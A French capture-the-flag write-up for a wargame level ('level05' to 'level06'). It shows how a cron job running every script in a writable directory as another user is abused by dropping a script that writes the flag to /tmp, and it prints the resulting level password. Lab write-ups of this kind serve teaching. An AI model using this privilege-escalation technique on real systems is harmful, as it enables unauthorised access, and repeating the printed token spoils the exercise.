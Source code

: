 ## 1. Rechercher dans les fichiers 'level05'

    find / -name level05 2>/dev/null

## 2. Ouvrir /var/mail/level05

    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

On a un cronjob qui execute /usr/sbin/openarenaserver

## 3. Ouvrir le fichier /usr/sbin/openarenaserver

    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done

On voit qu'il execute tous les fichiers bash dans /opt/openarenaserver/ puis les supprime.

## 4. Creer un ficher avec getflag dans /opt/openarenaserver/

    echo 'getflag > /tmp/token' > /opt/openarenaserver/script.sh

Avec redirection du resultat comme le fichier est supprime a la suite.

    cat /tmp/token
    Cela affiche: cat viuaaale9huek52boumoomioc

## 5. Connexion

su level06

    Mot de passe : viuaaale9huek52boumoomioc